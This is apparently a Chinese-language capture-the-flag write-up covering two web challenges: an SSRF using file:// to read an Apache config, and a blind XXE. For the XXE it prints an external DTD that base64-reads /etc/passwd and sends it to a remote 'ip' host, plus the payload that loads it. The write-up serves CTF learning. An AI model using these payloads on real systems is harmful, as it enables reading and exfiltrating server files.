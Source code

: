 其中urlink存在ssrf漏洞，没有限制协议以及后面的字符，当然大部分的特殊符号不能用，只能读取一些配置文件。

```
POST /getimg.php HTTP/1.1
Host: wc.qwb.com:8088
Cookie: PHPSESSID=cjq7naar02kajivdftljhj2h44

------WebKitFormBoundaryOXFwabnsGhrKdxyn
Content-Disposition: form-data; name="urlink"

file://wc.qwb.com:8088/etc/apache2/apache2.conf
------WebKitFormBoundaryOXFwabnsGhrKdxyn--
```

读取到apache的配置文件，可以看到内容。很郁闷，比赛的时候读取了这个文件，但是base64的内容没取完整导致没看到这部分，还是需要细心…
```
#<Directory /home/qwbweb/backdoor>
#       Port    23333
#   Options Indexes FollowSymLinks
#   AllowOverride None
#   Require all granted
#   Here is a Bin with its libc
#</Directory>
```
剩下的就是文件读取pwn程序，然后pwnpwnpwn了，太菜了，不会做。

### 教育机构
这个题目其实特别懵逼，给了一个域名，还以为是要来一场真实环境渗透题，所以信息收集方面都做了。比如扫二级域名，扫端口，扫文件(一扫就被ban)

80端口看的实在懵逼，毫无头绪。就看了一下33899端口的东西，有一个.idea的泄露，但是并没有什么用。

`http://39.107.33.75:33899/.idea/workspace.xml`

内容被注释了一段xm调用实体的变量，有点想xxe。

还有一个地方就是提交评论的地方，但是无论怎么样写入都是`alert("未知错误！！！请重试")`

![](https://p2.ssl.qhimg.com/t0186a7cd8b694eadb0.jpg)

传入数组的时候发现出现问题了。

![](https://p0.ssl.qhimg.com/t012128c603810b90b1.jpg)

comment处有被userdecode处理过，试一下xml头，就可以看到有报错，考点应该就是xxe。

`<?xml version="1.0" encoding="utf-8"?>`

![](https://p5.ssl.qhimg.com/t01933a8569390d8a27.jpg)

通过盲xxe，可以获取到文件。

远程服务器布置一个1.xml

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```
comment再进行调用
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://ip/xxe/1.xml"> %remote; ]></root>
```
获取一下`/var/www/52dandan.cc/public_html/config.php`
```
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
```